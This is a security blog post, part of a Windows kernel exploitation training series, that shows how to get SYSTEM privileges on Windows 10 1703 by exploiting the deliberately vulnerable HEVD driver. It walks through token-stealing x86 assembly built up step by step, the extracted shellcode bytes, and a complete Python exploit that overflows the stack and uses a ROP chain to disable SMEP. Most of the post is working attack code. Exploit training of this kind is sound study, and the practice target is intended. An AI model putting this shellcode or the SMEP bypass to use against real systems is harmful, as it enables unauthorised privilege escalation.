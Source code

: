 :slug: hevd-privilege-escalation/
:date: 2020-09-24
:category: attacks
:subtitle: Local Privilege Escalation
:tags: osee, training, exploit, windows, kernel, hevd
:image: cover.png
:alt: Photo by Christina @ wocintechchat.com on Unsplash
:description: In this article we will be able to perform a Local Privilege Escalation using an exploit to HEVD
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/F75IfIWSqRY

= HEVD: Local Privilege Escalation

This is the fourth article on where we've been through Windows Kernel
exploitation, using
link:https://github.com/hacksysteam/HackSysExtremeVulnerableDriver[HackSys Extremely Vulnerable Driver]
or `HEVD` as the target. In the previous articles, we've covered:

* link:../windows-kernel-debugging/[Lab setup], describing the tools and
environment needed to do Windows Kernel debugging.
* link:../hevd-dos/[Denial of Service] in which we performed an initial
attack to `HEVD`.
* link:../hevd-smep-bypass/[kASRL SMEP] were also successfully bypassed and
we could execute a simple shellcode in kernel mode.

In this article we will be able to obtain a privileged `SYSTEM` shell,
performing a Local Privilege Escalation by stealing security tokens.
We will also need to successfully resume execution of our OS after
the attack, to avoid any crash.

== Security token stealing

When we are attacking the kernel, we are supposed to have unprivileged access
to the target machine. That's why the common exploit goal is to perform
Local Privilege Escalation which means to get full privileges on the
OS. There are
link:https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/[several methods]
that can be used to do that. Most of them (ab)use the privilege model
implemented by Windows.

In Windows, when the system starts, a process called `SYSTEM` is created,
always with `PID` 4.

image::sysprocess2.png[SYSTEM processes]

Each process has a `EPROCESS` structure.

image::eprocess1.png[EPROCESS structure]

One of the members of that structure is `Token` which is a ticket granted
by the `LSASS` process.

image::token1.png[Security Token]

It is used to perform operations on the system
based on the permissions granted to that token. For example, if a process
wants to read a file, that file security descriptor will check if the
token of process has the permissions to do it. This is what is known as
Discretionary Access Control List or `DACL`.

In Windows, the `SYSTEM` token has all the permissions granted on all the
system objects (files, processes, devices, pipes, etc). That's why, if
we are able to steal that token and insert it to a non-privileged process,
that process will gain `SYSTEM` privileges.

To do that, we first need to get the offset of the `Token` field in the
`EPROCESS` structure:

image::token2.png[Security Token]

As you see, it is at `_EPROCESS+0x0fc`

Then, we need to get the `SYSTEM` process descriptor:

image::sysprocess1.png[SYSTEM process]

Then, we need to get the value of the token for the `SYSTEM` process:

image::tokenvalue1.png[SYSTEM token value]

Now, we launch a `cmd.exe` process on the target OS and get the current
privileges:

image::before1.png[Before Privilege Escalation]

Then, we must get the `cmd.exe` process descriptor:

image::cmdprocess1.png[CMD process]

Finally, we must copy the value of the token of the `SYSTEM` process to
the `cmd.exe` process. Let's see it in action:

image::lpe1.gif[Local Privilege Escalation]

Wonderful! As you can see, our `cmd.exe` is now running as
`nt authority\system`!

*NOTE:* We need to remember that the offsets described in this article
are only applicable for the Windows version that we are currently using:
Windows 10 1703 32 bits.

Now, we must make this process programmatically if we want to include
it in our exploit. The strategy is the following:

* Look for a fixed starting point that we can use to calculate offsets, using
position-independent code.
* Get the current process list.
* Find the `cmd.exe` process.
* Find the `SYSTEM` process (with `PID` 4).
* Grab the `Token` from the `SYSTEM` process.
* Copy the token from process `SYSTEM` to the `cmd.exe` process
* Restore execution
* Enjoy

The first step is to find a fixed position from where we can get the required
structures as an offset. According to
link:https://en.wikipedia.org/wiki/Win32_Thread_Information_Block[this entry],
we can access the `_NT_TIB` structure from the `fs` segment selector. This
structure holds information of the current running thread (in our case, that
would be the exploit). The article also says that we can reach the `_KTRHEAD`
structure at `fs+0x124`. With that, we can start writing some assembler:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
----

In the `_KTHREAD` structure we can find an offset to the `_KPROCESS`.

image::kthread1.png[KTHREAD KPROCESS]

It turns out that `_KPROCESS` is the first field of `_EPROCESS`, which means
that we can access the `_EPROCESS` structure at `_KTHREAD+0x150`:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
----

The `_EPROCESS` structure holds the required offsets to the other needed
information:

* `_EPROCESS+0x0b8` points to `ActiveProcessLinks` which is a linked list
holding the current running processes, and `_EPROCESS+0x0b4` points to the
current process `PID`:

image::activeprocess1.png[Active Process Links]

* `_EPROCESS+0x140` points to `InheritedFromUniqueProcessId` which will contain
the `PID` of the parent process, in our case the `PID` of `cmd.exe`:

image::parentpid1.png[Parent Pid]

With that, we need to save the `PID` of `cmd.exe`:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
----

Now we need to traverse the `ActiveProcessLinks` list to find the `_EPROCESS`
structure for the `cmd.exe` process:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx          	; Check if this entry belongs to `cmd.exe`
jne find_cmd							; If not, go to the next entry of ActiveProcessLinks
----

Then, find the `_EPROCESS` structure for the `SYSTEM` process:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx          	; Check if this entry belongs to `cmd.exe`
jne find_cmd							; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4            	; Check if this entry belongs to PID 4 = SYSTEM
jne find_system							; If not, go to the next entry of ActiveProcessLinks
----

We then must move the token from `SYSTEM` to `cmd.exe`:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx          	; Check if this entry belongs to `cmd.exe`
jne find_cmd							; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4            	; Check if this entry belongs to PID 4 = SYSTEM
jne find_system							; If not, go to the next entry of ActiveProcessLinks
add ecx, 0x0fc                          ; ECX now points to the Token of SYSTEM
mov ecx, [ecx]                          ; Copy contents of Token to ECX
mov [edi+0x0fc], ecx                    ; Move the Token of SYSTEM to cmd.exe
----

And finally restore execution. As we are writing in the stack, we will surely
mangle immediate stack frames of caller functions. If we look at the stack
after executing the shellcode, we can see that there is a stack frame at which
we can return to, located at `esp+0x10`:

image::prev-ebp1.png[Previous unmangled stack frame]

With that, we can add a restore point to our shellcode:

[source,x86asm]
----
pushad
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx          	; Check if this entry belongs to `cmd.exe`
jne find_cmd							; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4            	; Check if this entry belongs to PID 4 = SYSTEM
jne find_system							; If not, go to the next entry of ActiveProcessLinks
add ecx, 0x0fc                          ; ECX now points to the Token of SYSTEM
mov ecx, [ecx]                          ; Copy contents of Token to ECX
mov [edi+0x0fc], ecx                    ; Move the Token of SYSTEM to cmd.exe
popad                                   ; Restore
xor eax,eax
inc eax
add esp,0x10
pop ebp
ret 8
----

Now, we can compile that code with:

[source,console]
----
> nasm -f elf32 -o steal.o steal.asm
----

And get the shellcode with:

[source,console]
----
$ for i in $(objdump -d steal.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x60\x64\xa1\x24\x01\x00\x00\x8b\x80\x50\x01\x00\x00\x8b\x90\x40\x01\x00\x00
\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00\x39\x91\xb4\x00\x00
\x00\x75\xec\x89\xcf\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00
\x83\xb9\xb4\x00\x00\x00\x04\x75\xeb\x81\xc1\xfc\x00\x00\x00\x8b\x09\x89\x8f
\xfc\x00\x00\x00\x61\x31\xc0\x40\x83\xc4\x10\x5d\xc2\x08\x00
----

Now, let's pick the exploit from the link:../hevd-smep-bypass/[last post],
and update the shellcode. I also added some `print` calls that helps
to understand at what part of the exploit we are now:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-smep-bypass/
"""

import struct
import sys
from ctypes import windll, c_int, c_ulong, byref, sizeof
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
PSAPI = windll.psapi
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003


def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]


BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')

SHELLCODE = (
    b'\x60\x64\xa1\x24\x01\x00\x00\x8b\x80\x50\x01\x00\x00\x8b\x90\x40\x01'
    b'\x00\x00\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00\x39'
    b'\x91\xb4\x00\x00\x00\x75\xec\x89\xcf\x89\xc1\x8b\x89\xb8\x00\x00\x00'
    b'\x81\xe9\xb8\x00\x00\x00\x83\xb9\xb4\x00\x00\x00\x04\x75\xeb\x81\xc1'
    b'\xfc\x00\x00\x00\x8b\x09\x89\x8f\xfc\x00\x00\x00\x61\x31\xc0\x40\x83'
    b'\xc4\x10\x5d\xc2\x08\x00'
)

print('Allocating memory for shellcode...')
RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

print('Moving shellcode to heap...')
KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
)

print('Creating ROP chain...')
ROP_CHAIN = (
    struct.pack('<L', BASE_ADDRESS + 0x0002bbef) +     #  pop eax # ret
    struct.pack('<L', 0x42424242) +                    #  Padding for ret 8
    struct.pack('<L', 0x42424242) +                    #
    struct.pack('<L', 0x000406e9) +                    #  Value to disable SMEP
    struct.pack('<L', BASE_ADDRESS + 0x0011f8de) +     #  mov cr4, eax # ret
    struct.pack('<L', RET_PTR)                         #  Pointer to shellcode
)

PAYLOAD = (
    b'A' * 2080 +
    ROP_CHAIN
)

SIZE = len(PAYLOAD)

print('Opening driver handle...')
HANDLE = DeviceIoControl(DEVICE_NAME)
print('Sending payload...')
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
print('Done.')

sys.exit(0)
----

And check it:

image::success.gif[Success]

Glorious! We were able to steal the token of the `SYSTEM` process and
copy it to our `cmd.exe` shell. Now, we own the system!

== Conclusions

It was fun to steal the `SYSTEM` process token and write it to our own
parent process. There are many other ways of gaining Local Privilege Escalation
but this method is one of the most used because it is extremely reliable if
you can restore the execution of the kernel.
